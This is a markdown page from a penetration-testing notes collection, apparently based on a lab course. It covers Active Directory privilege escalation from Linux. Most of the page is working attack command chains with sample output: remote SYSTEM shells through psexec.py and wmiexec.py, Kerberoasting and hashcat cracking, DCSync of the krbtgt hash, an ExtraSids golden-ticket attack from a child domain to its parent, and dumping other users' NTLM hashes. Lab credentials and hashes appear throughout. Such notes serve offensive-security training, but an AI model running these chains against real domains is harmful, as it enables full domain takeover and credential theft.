

# Privileges escalation in Active Directory from Linux

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)

!!! tip "Linux in AD"
	- [Linux in active directory](linux-in-active-directory.md)


There are several ways to gain SYSTEM-level access on a host, including but not limited to:

- Remote Windows exploits such as MS08-067, EternalBlue, or BlueKeep.
- Abusing a service running in the context of the `SYSTEM account`, or abusing the service account `SeImpersonate` privileges using [Juicy Potato](https://github.com/ohpe/juicy-potato). This type of attack is possible on older Windows OS' but not always possible with Windows Server 2019.
- Local privilege escalation flaws in Windows operating systems such as the Windows 10 Task Scheduler 0-day.
- Gaining admin access on a domain-joined host with a local account and using Psexec to launch a SYSTEM cmd window


By gaining SYSTEM-level access on a domain-joined host, you will be able to perform actions such as, but not limited to:

- Enumerate the domain using built-in tools or offensive tools such as BloodHound and PowerView.
- Perform Kerberoasting / ASREPRoasting attacks within the same domain.
- Run tools such as Inveigh to gather Net-NTLMv2 hashes or perform SMB relay attacks.
- Perform token impersonation to hijack a privileged domain user account.
- Carry out ACL attacks.

##  PSExec.py

Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.


```shell-session
# Get help 
impacket-psexec -h

# Connect to a remote machine with a local administrator account
psexec.py $domain/$user:$password@$ip 

# Another way
impacket-psexec administrator:'<password>'@$ip
# Examples:
# psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.130
# impacket-psexec inlanefreight.local/wley:'transporter@4'@172.16.5.130
```

```
# Results
C:\Windows\system32>whoami
nt authority\system
```


## wmiexec.py

Wmiexec.py utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands).

```shell-session
# Connect to a remote machine with a local administrator account
wmiexec.py $domain/$user:$password@$ip 
# Examples:
# impacket-wmiexec inlanefreight.local/wley:'transporter@4'@172.16.5.5 
# wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```


```
# Results
C:>whoami
domain\user22
```


## 🔐  Kerberoasting

[See about Kerberos authentication](kerberos-authentication.md).

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments. This attack targets Service Principal Names (SPN) accounts. 

Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`. Any domain user can request a Kerberos ticket for any service account in the same domain. This is also possible across forest trusts if authentication is permitted across the trust boundary.

Requirements to perform a Kerberoasting attack:

- an account's cleartext password (or NTLM hash),
- a shell in the context of a domain user account or SYSTEM level access on a domain-joined host.

Depending on your position in a network, this attack can be performed in multiple ways:

- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.

Several tools can be utilized to perform the attack:

- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.

#### GetUserSPNs.py

[More about GetUserSPNs.py](impacket-GetUserSPNs.md).

**1**. Install Impacket from: [https://github.com/fortra/impacket](https://github.com/fortra/impacket)

```bash
git clone https://github.com/fortra/impacket
cd impacket
sudo python3 -m pip install .
```

**2.** Gather a listing of SPNs in the domain. We will need a set of valid domain credentials and the IP address of a Domain Controller.

```bash
GetUserSPNs.py -dc-ip $ip $domain/$username
# -dc-ip: Domain controller IP.
# Example:
# GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

**3.** Requesting all TGS Tickets:

```bash
GetUserSPNs.py -dc-ip $ip $domain/$username -request 
# Example:
# GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

**4.** Or request just the TGS ticket for a specific account. 

```bash
GetUserSPNs.py -dc-ip $ip $domain/$username -request-user $userrequested -outputfile file_tgs
# -outputfile:  to write the TGS tickets to a file 
# Example:
# GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```


**5.** Cracking the Ticket Offline with Hashcat.

```bash
hashcat -m 13100 file_tgs /usr/share/wordlists/rockyou.txt 
```


#### targetedKerberoast

[targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) is a Python script that can, like many others (e.g. GetUserSPNs.py), print "kerberoast" hashes for user accounts that have a SPN set. This tool brings the following additional feature: for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute), print the "kerberoast" hash, and delete the temporary SPN set for that operation. This is called targeted Kerberoasting. This tool can be used against all users of a domain, or supplied in a list, or one user supplied in the CLI.


```
./targetedKerberoast.py -d htb.local -u $user -p $password -v

# Troubleshooting:
# Sometimes it's necessary to sync the attacker machine date with the domain controller. In kali:
sudo ntpdate -u $DomainControolerip
```


## 👀 Attacking Domain Trusts # 1: Child -> Parent Trusts

### 🏰 ExtraSids Attack 

Requirements for performing the attack:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

We have complete control over the child domain, which would be: LOGISTICS.INLANEFREIGHT.LOCAL.

#### Step 1: getting the KRBTGT hash for the child domain

We will perform a DCSync attack with secretsdump.py:

```shell-session
secretsdump.py $targetedDomain/$UserWithAdminPriv@$TargetedIP -just-dc-user $NetbiosNameofDomain/krbtgt

# Example:
# secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
# Enter password: HTB_@cademy_stdnt_admin!
```

For this we need:
- The user (`htb-student_adm`) must have the necessary privileges to query the domain controller. We need their creds.
- We require to know $targetedDomain and NetbiosNameofDomain.
- The **Impacket** library must be installed, and the tool should be executed in an environment with Python support.
- Network connectivity to the target IP (in this example `172.16.5.240`) is required.

Results:

```
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538

```

#### Step 2: getting the SID for the child domain

Next, we can use [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) , an Impacket script used for querying a Windows system to obtain information about the SID associated with a given user or group. 

The tool will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format `DOMAIN_SID-RID`.

```shell-session
lookupsid.py $targetedDomain/$UserWithAdminPriv@TargetedIP 
# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 
# Enter password: HTB_@cademy_stdnt_admin!
```

If we just want to get the Domain SID, we can filter it out:

```shell-session
lookupsid.py $targetedDomain/$UserWithAdminPriv@TargetedIP | grep "Domain SID"
# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
# Enter password: HTB_@cademy_stdnt_admin!
```

Results:  S-1-5-21-2806153819-209893948-922872689
 
#### Step 3: getting the name of a target user in the child domain (does not need to exist!)

For instance, `hacker`.

#### Step 4: getting the FQDN of the child domain.

logistics.inlanefreight.local


#### Step 5: getting the SID of the Enterprise Admins group of the root domain

Next, we can rerun the command, targeting the INLANEFREIGHT Domain Controller (DC01) at 172.16.5.5. We will perform a **SID enumeration** on the target system and filter the results to find information related to the **Enterprise Admins** group in the Active Directory (AD) domain. For filtering we will use the RID of the Enterprise Admins group. [Here](active-directory-security-identifiers.md) is a handy list of well-known SIDs.

```shell-session
lookupsid.py $targetedDomain/$UserWithAdminPriv@$DomainControllerIP | grep "Enterprise Admins"
# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep "Enterprise Admins"
# Enter password: HTB_@cademy_stdnt_admin!

# Way2:
lookupsid.py LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm@INLANEFREIGHT.LOCAL | grep "Enterprise Admins"
# Enter password: HTB_@cademy_stdnt_admin!
```

Result:
```
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```

As the domain SID was: `S-1-5-21-3842939050-3880317879-2865463114` and the RID is `519`, the SID of "Enterprise Admin" group is `S-1-5-21-3842939050-3880317879-2865463114-519` .


#### Step 6: Generate a golden ticket 

Next, we can use [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by `-domain-sid`) and the parent domain (specified by `-extra-sid`).

```shell-session
ticketer.py -nthash $KRBTGThashOfChildDomain -domain $targetedDomain -domain-sid $sidDomain -extra-sid $SIDofEnterpriseAdminGroup $madeupUserName
# Example:
# ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials:

```
[*] Saving ticket in hacker.ccache
```


Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.

```shell-session
export KRB5CCNAME=hacker.ccache 
```


We can check if we can successfully authenticate to the parent domain's Domain Controller using [Impacket's version of Psexec](impacket-psexec.md). If successful, we will be dropped into a SYSTEM shell on the target Domain Controller.

```shell-session
psexec.py $targetedDomain/$madeupUser@$hostNameDC.$ParentDomain -k -no-pass -target-ip $DomainControllerIP
# Example:
# psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
# Enter password: HTB_@cademy_stdnt_admin!
```


#### Step 7: Privilege escalation

Impacket also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain.

We need to specify the target domain controller and credentials for an administrative user in the child domain. 

```shell-session
raiseChild.py -target-exec $DomainControllerIP  $TargetedDomain/$UserWithAdminPriv
# Example:
# raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
# Enter password: HTB_@cademy_stdnt_admin!
# target-exec: If specified, then it will authenticate to the parent domain's Domain Controller via Psexec.

```


#### Step 8: Accessing another user on domain

The following will reproduce the entire attack:


```
#### Step 1: getting the KRBTGT hash for the child domain
secretsdump.py $targetedDomain/$UserWithAdminPriv@$TargetedIP -just-dc-user $NetbiosNameofDomain/krbtgt

# Example:
# secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
# Enter password: HTB_@cademy_stdnt_admin!
# Results: 9d765b482771505cbe97411065964d5f
#### 

#### Step 2: getting the SID for the child domain. Obtain the SID for the domain and the RIDs for each user and group and filter out by Domain SID
lookupsid.py $targetedDomain/$UserWithAdminPriv@TargetedIP | grep "Domain SID"

# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
# Enter password: HTB_@cademy_stdnt_admin!
# Results:  S-1-5-21-2806153819-209893948-922872689
####

#### Step 3: getting the name of a target user in the child domain (does not need to exist!)
hacker
####

#### Step 4: getting the FQDN of the child domain.
logistics.inlanefreight.local
####

#### Step 5: getting the SID of the Enterprise Admins group of the root domain
lookupsid.py $targetedDomain/$UserWithAdminPriv@$DomainControllerIP | grep "Enterprise Admins"
# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep "Enterprise Admins"
# Enter password: HTB_@cademy_stdnt_admin!
# Results: 519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
####

#### Step 6: Generate a golden ticket 
ticketer.py -nthash $KRBTGThashOfChildDomain -domain $targetedDomain -domain-sid $sidDomain -extra-sid $SIDofEnterpriseAdminGroup $madeupUserName
# Example:
# ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

# The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials:
[*] Saving ticket in hacker.ccache

# Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.
export KRB5CCNAME=hacker.ccache 
####

#### Step 7: Accessing another user on domain
# With one user, we will request the NTLM hash for another user
secretsdump.py $ControlledUsername@$hostnameController.$Parentdomain -k -no-pass -just-dc-ntlm -just-dc-user $targetUsername
# Example:
# secretsdump.py hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-ntlm -just-dc-user bross

```

### 🌳 Cross-Forest Kerberoasting

 Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.
 
To do this, we need credentials for a user that can authenticate into the other domain and specify the `-target-domain` flag in our command.
 
```shell-session
GetUserSPNs.py -target-domain $targetedDomain $OurDomain/$ourUserSamAccountName
# Example:
# GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
# Enter password: transporter@4
```


Rerunning the command with the `-request` flag added gives us the TGS ticket.

```shell-session
GetUserSPNs.py -request -target-domain $targetedDomain $OurDomain/$ourUserSamAccountName
# Example:
# GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
# Enter password: transporter@4
```

Now, with those TGS we could try to crack them offline

```bash
hashcat -m 13100 tickettocrack /usr/share/wordlists/rockyou.txt  
```


### 🐇 Hunting Foreign Group Membership with Bloodhound-python

we may, from time to time, see users or admins from one domain as members of a group in another domain.  Since only `Domain Local Groups` allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship.

 If we are testing from a Linux host, we can gather this information by using the [Python implementation of BloodHound](https://github.com/fox-it/BloodHound.py).

**Collecting information from INLANEFREIGHT.LOCAL**

```shell-session
sudo nano /etc/resolv.conf 
```

Modify the file so it will have the following entries:

```
#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

Running bloodhound-python Against INLANEFREIGHT.LOCAL:

```bash 
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```

We can compress the resultant zip files to upload one single zip file directly into the BloodHound GUI.

```shell-session
zip -r ilfreight_bh.zip *.json
```


**Collecting information from INLANEFREIGHT.LOCAL**

```shell-session
sudo nano /etc/resolv.conf 
```

Modify the file so it will have the following entries:

```shell-session
#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL

```shell-session
bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```

We can compress the resultant zip files to upload one single zip file directly into the BloodHound GUI.

```shell-session
zip -r FREIGHTLOGISTICS.zip *.json
```

Transfer the files to your attacker machine, open [Bloodhound](bloodhound.md) in your attacker machine, upload the zip. Now we can click on Users with Foreign Domain Group Membership under the Analysis tab and select the source domain as INLANEFREIGHT.LOCAL. Here, we will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain as we saw previously.



